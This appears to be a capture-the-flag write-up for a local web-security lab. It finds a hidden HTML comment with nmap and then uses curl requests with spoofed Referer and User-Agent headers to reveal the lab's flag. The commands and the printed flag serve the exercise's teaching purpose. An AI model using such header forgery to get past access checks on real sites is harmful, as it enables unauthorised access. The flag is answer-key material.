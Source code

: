 # Webpage Content for Information Leakage

https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/01-Information_Gathering/05-Review_Webpage_Content_for_Information_Leakage

## Search in HTML Comments

Comments in HTML can sometimes contain sensitive information that should not be exposed to users. It could be developer notes, credentials, or other information that could be useful to an attacker.

```html
<!--
    This is a comment that should not be here.
    Contact the webmaster at admin@localhost for more information.
    Do not share this information with anyone.
    Sensitive information: Password is 'P@ssw0rd!'
-->
```

```bash
# Scan HTML,JS for comments
nmap -sV -p 8080 --script http-comments-displayer localhost
# Nmap scan report for localhost (127.0.0.1)
# Host is up (0.00011s latency).
#
# PORT     STATE SERVICE VERSION
# 8080/tcp open  http    nginx 1.4.6 (Ubuntu)
# | http-comments-displayer:
# | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=localhost
# |
# |     Path: http://localhost:8080/css/style.css
# |     Line number: 498
# |     Comment:
# |         /* Image */
# |
# |     Path: http://localhost:8080/css/skel.css
# |     Line number: 97
# |     Comment:
# |         /* margin: -(gutters.horizontal) 0 -1px -(gutters.vertical) */
# |
# |     Path: http://localhost:8080/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
# |     Line number: 520
# |     Comment:
# |         <!--
# |         You must come from : "https://www.nsa.gov/".
# |         -->
# |
# ...
```

Get the page containing the potential sensitive information:

```bash
curl -v -L -H "Referer: https://www.nsa.gov/" http://localhost:8080/\?page\=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f -o commented_page_ref.html

curl -v -L http://localhost:8080/\?page\=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f -o commented_page_no_ref.html
```

Diff the output when referer header (come from ...) with no referer:

```bash
diff -u commented_page_no_ref.html commented_page_ref.html
```

```html
--- commented_page_no_ref.html 2025-10-14 12:02:03.013157405 +0200 +++
commented_page_ref.html 2025-10-14 12:01:44.436965495 +0200 @@ -34,7 +34,7 @@
<!-- Main -->
<section id="main" class="wrapper">
  <div class="container" style="margin-top:75px">
    -<audio
      id="best_music_ever"
      src="audio/music.mp3"
      preload="true"
      loop="loop"
      autoplay="autoplay"
    >
      +FIRST STEP DONE<audio
        id="best_music_ever"
        src="audio/music.mp3"
        preload="true"
        loop="loop"
        autoplay="autoplay"
      ></audio>
      <script language="javascript">
        function coucou() {
          document.getElementById("best_music_ever").play();
        }
      </script>
    </audio>
  </div>
</section>
```

The is a new msg `+FIRST STEP DONE` displayed.

Then:

```bash
diff -u <(curl -s http://localhost:8080/\?page\=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f) <(curl -s -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" http://localhost:8080/\?page\=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f)
```

```html
--- /proc/self/fd/18 2025-10-14 16:14:45.623475364 +0200 +++ /proc/self/fd/19
2025-10-14 16:14:45.623475364 +0200 @@ -34,7 +34,7 @@
<!-- Main -->
<section id="main" class="wrapper">
  <div class="container" style="margin-top:75px">
    -<audio
      id="best_music_ever"
      src="audio/music.mp3"
      preload="true"
      loop="loop"
      autoplay="autoplay"
    >
      +
      <center>
        <h2 style="margin-top:50px;">
          The flag is :
          f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
        </h2>
        <br /><img src="images/win.png" alt="" width="200px" height="200px" />
      </center>
      <audio
        id="best_music_ever"
        src="audio/music.mp3"
        preload="true"
        loop="loop"
        autoplay="autoplay"
      ></audio>
      <script language="javascript">
        function coucou() {
          document.getElementById("best_music_ever").play();
        }
      </script>
    </audio>
  </div>
</section>
```
